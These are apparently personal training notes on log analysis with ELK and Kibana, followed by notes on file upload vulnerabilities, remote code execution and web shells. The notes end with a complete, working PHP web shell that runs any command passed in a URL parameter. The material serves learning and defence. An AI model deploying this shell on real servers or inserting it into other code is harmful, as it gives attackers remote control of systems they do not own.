 #cybersecurity #logAnalysis 

## Operation Blue
### Log Analysis & Introducing ELK
Combo of data analytics and processing tools to make analysing logs much more manageable.

### Using ELK
We will use Kibana Discover interface to revie Apache2 logs
A collection is a group of logs

**Kibana Discovery UAI**
![[Pasted image 20241203210804.png]]

1. **Search Bar:** Here, we can place our search queries using KQL
2. **Index Pattern:** An index pattern is a collection of logs. This can be from a specific host or, for example, multiple hosts with a similar purpose (such as multiple web servers). In this case, the index pattern is all logs relating to "wareville-rails"
3. **Fields:** This pane shows us the fields that Elasticsearch has parsed from the logs. For example, timestamp, response type, and IP address.
4. **Timeline:** This visualisation displays the event count over a period of time
5. **Documents (Logs):** These entries are the specific entries in the log file
6. **Time Filter:** We can use this to narrow down a specific time frame (absolute). Alternatively, we can search for logs based on relativity. I.e. "Last 7 days".


### Kibana Query Language (KQL)
`ip.address: "10.10.10.10"`
It can use Lucene


## Operation Red
### File Upload Vulnerabilities
- **RCE**
- **XSS**

Unrestricted file uploads can be particularly dangerous because they allow an attacker to upload any type of file.

- Uploading a script that the server executes, leading to RCE.  
    
- Uploading a crafted image file that triggers a vulnerability when processed by the server.  
    
- Uploading a web shell and browsing to it directly using a browser.

### Usage of weak credentials
Default credentials


### Remote Code Execution (RCE)
It happens when an attacker finds a way to run their own code on a system.

### What is a Web Shell
It is a script that attackers upload to a vulnerable server, giving them remote control over it.
Typically gives the attacker a web-based interface to run commands.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```








